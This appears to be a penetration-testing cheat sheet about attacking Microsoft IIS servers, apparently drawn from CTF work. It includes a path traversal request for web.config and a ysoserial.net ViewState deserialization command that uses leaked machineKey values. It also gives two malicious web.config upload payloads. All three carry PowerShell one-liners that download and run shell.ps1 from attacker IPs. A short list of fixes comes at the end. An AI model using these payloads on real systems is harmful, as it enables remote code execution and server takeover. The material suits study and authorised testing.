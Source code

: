 ```yaml
---
title: "IIS"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



**Exploring Binary Files with path traversal **

```sh
GET /download_page?id=..%2f..%2fweb.config HTTP/1.1
Host: example-mvc-application.minded
```

`Don't forget to try multiple path traversal like ..../ or \..\`

- Interesting file : 
  Web.config
  
- Interesting extension : 
  asp
  aspx
  config
  php

**Microsoft IIS tilde character “~” Vulnerability/Feature – Short File/Folder Name Disclosure**

- Download the tool:
```sh
wget https://github.com/irsdl/IIS-ShortName-Scanner
```
- Exploit :
```sh
java -jar iis_shortname_scanner.jar 2 20 http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db/
```

**ViewState exploitation knowing secrets **

- Resources : 
https://blog.liquidsec.net/2021/06/01/asp-net-cryptography-for-pentesters/
https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/

- Need to read the web.config file:
```sh
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

- Download YsoSerial : 
```sh
https://github.com/pwntester/ysoserial.net/releases/tag/v1.36
```

- Generate the payload : 
```sh
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.18:8080/shell.ps1') "  --decryptionalg="AES"  --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio/default.aspx"
```

**Not knowing Viewstate secrets **

- Resources :
  https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter

### Web config file upload : 

```sh
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.3.12:8080/shell.ps1')")
%>
```


```sh
<?xml version="1.0" encoding="utf-8"?> 
<configuration>  
    <location path="." inheritInChildApplications="false">  
        <system.webServer>  
            <handlers>  
                <add name="aspNetCore" path="toto" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />  
            </handlers>  
            <aspNetCore processPath="cmd.exe" 
                        arguments="/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.3.12:8080/shell.ps1')" 
                        stdoutLogEnabled="false" 
                        stdoutLogFile=".\logs\stdout" 
                        hostingModel="OutOfProcess" />  
        </system.webServer>  
    </location>  
</configuration>  
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```

- Ressources : https://medium.com/@jeroenverhaeghe/rce-from-web-config-461a5eab8ce9
## Fixes

- Set **allowSubDirConfig** = false in  
    `C:\Windows\System32\inetsrv\Config\applicationHost.config`. This prevents web.config files from being read in subdirectories
- Remove write permission on the `web.config` file.
- Lock sections in the web config